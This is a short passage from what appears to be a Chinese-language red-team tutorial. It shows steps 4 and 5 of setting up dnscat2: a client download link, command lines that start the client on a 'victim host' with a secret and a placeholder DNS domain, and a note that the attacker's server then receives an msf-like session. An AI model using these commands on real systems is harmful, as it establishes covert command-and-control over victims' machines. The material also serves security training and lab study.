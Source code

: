 [![](assets/1708095858-c28c10e60428cc6fa2f0df13aa97d5cf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203105-351e2a74-e8e5-1.png)

4、配置客户端，二进制文件下载地址：[https://downloads.skullsecurity.org/dnscat2/](https://downloads.skullsecurity.org/dnscat2/) ，客户端（受害主机）启动 dnscat2 服务

```bash
dnscat2-v0.07-client-win32.exe --secret=[密钥] [NS 记录值] --delay 5000
dnscat2-v0.07-client-win32.exe --secret=000000 log.xxx.xxx --delay 5000
```

[![](assets/1708095858-ca3d81f6d57bcaff7e9ea2f2c4293453.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203114-3a9e0636-e8e5-1.png)

5、查看服务端，返回一个 session 类似 msf 一般

[![](assets/1708095858-4c74756b550e88fb9da48a2f91a43cc2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230502203121-3ed8ca1a-e8e5-1.png)

